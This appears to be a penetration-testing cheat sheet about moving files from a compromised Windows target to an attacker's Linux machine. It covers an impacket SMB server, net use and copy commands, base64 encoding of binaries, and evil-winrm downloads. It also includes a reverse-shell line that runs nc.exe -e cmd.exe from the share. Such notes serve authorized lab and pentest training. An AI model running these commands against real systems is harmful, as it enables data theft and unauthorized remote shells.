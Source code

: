 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2025-7-25
tags: ["Smb", "File System Mounting",  "Http File Transfer", "Remote File Inclusion", "File Transfer", "Windows", "Evil-Winrm"]
---
```


{{< tab set1 tab1 >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

```console
impacket-smbserver share . -smb2support
```

#### cmd

```console
# Connect to SMB server without creds
net use \\<LOCAL_IP>\share
```

```console
# Connect to SMB server with creds
net use \\<LOCAL_IP>\share /u:<USER> '<PASSWORD>'
```

```console
# From target Windows to local Linux
copy <FILE> \\<LOCAL_IP>\share
```

```console
# From local Linux to target Windows
copy \\<LOCAL_IP>\share\<FILE> <FILE>
```

```console
# Delete file
del <FILE>
```

```console
# Remove SMB share
net use /d \\<LOCAL_IP>\share
```

```console
# Older Windows (e.g. xp), use directly
\\<LOCAL_IP>\share\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small Binary

```console
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\<FILE>' -Encoding Byte))
```

```console
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
download 'C:\ProgramData\<FILE>' '<LOCAL_DEST_PATH>'
```

{{< /tabcontent >}}
